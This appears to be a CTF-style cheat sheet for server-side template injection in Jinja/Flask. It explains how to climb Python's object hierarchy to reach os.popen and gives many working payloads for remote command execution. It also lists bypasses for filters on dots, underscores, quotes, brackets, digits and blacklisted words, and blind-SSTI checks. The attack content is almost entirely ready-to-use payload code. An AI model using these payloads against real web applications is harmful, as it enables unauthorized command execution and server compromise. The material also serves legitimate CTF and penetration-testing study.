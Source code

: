 # Server-side Template Injection

## Jinja

### Basic injection

`{{7*7}}`

`{{config}}`

### RCE

The main goal of RCE through SSTI is to climb up the Python object hierachy, target is `__globals__.__builtins__.__import__`. 

Method 1:
1. Get `__class__` of any object
2. Get base Object class from the following *lists*
	* `__mro__`
		* Usually, the last item is the base Object.
	* `__bases__`
		* Usually, the only item is the base Object.
3. Get `__subclasses__()` and find a function that belongs to os or subprocess
	* `__subclasses__()` returns a list, to find the proper index:
		* Write a simple script (split output by comma, search for desired function's index)
		* CTRL+F and search "class", hit Enter until you reach desired function (index might be slightly off but can be faster than scripting)
		* Use Burp Intruder to fuzz (fast but overkill???)
4. The `__globals__` dict is in `__init__`
	* It should have `popen` (os) or `check_output` (subprocess)

> In Python 2, `string` is not directly under `object`, so `__base__[0]` twice

Method 2:
1. Get `__init__` of a Jinja object (self, cycler, joiner, namespace)
2. Get `__globals__`, a dict that has builtins at key `__builtins__`
3. `__builtins__` has `__import__` which we can use to import `os` 
	* Besides `__import__`, `__builtins__` also can have other functions like read(), eval() etc
	* It's however possible to set `__builtins__` to None, so this method is not foolproof
	* This method is more useful if you need to import certain modules that have the flag, rather than plain RCE


*Examples*

```py
{{''.__class__.__bases__[0].__subclasses__()[117].__init__.__globals__['popen']("ls").read()}}
{{''.__class__.__mro__[1].__subclasses__()[117].__init__.__globals__['popen']("ls").read()}}
{{self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```

### Filter bypass

#### No {{ or }}

```py
{% print self.__class__.__mro__[-1].__subclasses__()[117].__init__.__globals__["popen"]("whoami").read()[0] %}
```

#### [^/]

`werkzeug.url_fix` converts `\` into `/` (dependent on source code)

#### [^\.]

```py
{{self["__class__"]}}
{{self|attr("__class__")}}

{{''['__class__']['__mro__'][1]['__subclasses__']()[117]["__init__"]["__globals__"]["popen"]("ls")["read"]()}}
{{self|attr("__init__")|attr("__globals__")|attr("__getitem__")("__builtins__")|attr("__getitem__")("__import__")("os")|attr("popen")("ls")|attr("read")()}}
```

#### [^_]

```py
{{self["\x5f\x5fclass\x5f\x5f"]}}
{{self|attr("\x5f\x5fclass\x5f\x5f)}}
```

#### [^'"]

This one is more advanced. We can exploit the built-in request Object in Flask to pass in any strings we like.

For example: 
```py
{{ ''[request.args.get('class')].mro()[1][request.args.get('subclasses')]() }}
```

`http://url.com/?class=__class__&subclasses=__subclasses__`

#### Cookies

```py
{{self.__class__.__mro__[-1].__subclasses__()[117].__init__.__globals__[request.cookies.f](request.cookies.cmd).read()}}
(Cookies: f=popen; cmd=ls)
```

##### GET query params

```py
{{self.__class__.__mro__[-1].__subclasses__()[117].__init__.__globals__[request.args.f](request.args.cmd).read()}}
(/?f=popen&cmd=ls)
```

Other ways to do this:
* POST (request.values.f)
* Headers (request.headers.f)

#### Word blacklist

```py
{{()|attr(request.cookies.f|format(request.cookies.a))|attr(request.cookies.mro)[-1]}}
(Cookies: f=__cl%sss__; a=a; mro=__mro__)
```

#### [^\[\]]

```py
{{''.__class__.__mro__.__getitem__(-1).__subclasses__().__getitem__(117).__init__.__globals__.__getitem__(request.cookies.function)(request.cookies.cmd).read()}}
(Cookies: function=popen; cmd=ls)
```

#### [^'"\.0-9]

```py
{{lipsum[(dict(__globals__=x)|list)[False]][(dict(os=x)|list)[False]][(dict(popen=x)|list)[False]]([(dict(cat=x)|list)[False]|center,(dict(galf=x)|list)[False]|reverse]|join)[(dict(daer=x)|list)[False]|reverse]()}}
```

### Read variables

If the goal isn't RCE but to read the value of a variable of the current process (might not be possible via RCE), we can import main and expose the variable.

```py
{{ self.__init__.__globals__['__builtins__']['__import__']('__main__') }}
```

### Blind SSTI

Sometimes the app might not have proper output for you to get your results. This is similar to Blind SQLi.

```py
{% if self.__class__.__mro__[-1].__subclasses__()[117].__init__.__globals__["popen"]("whoami").read()[0] == 'r' %} 1 {% endif %}
```

Run it in Burp Intruder, don't forget to check for special characters like \n etc.


## References

* <https://chowdera.com/2020/12/20201221231521371q.html>
